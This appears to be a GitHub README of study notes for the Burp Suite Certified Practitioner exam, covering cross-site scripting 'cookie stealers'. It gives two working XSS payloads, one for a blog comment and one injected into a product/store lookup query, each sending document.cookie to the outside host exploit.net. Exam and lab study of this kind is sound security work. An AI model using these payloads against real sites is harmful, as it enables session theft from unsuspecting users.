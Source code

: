 
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```
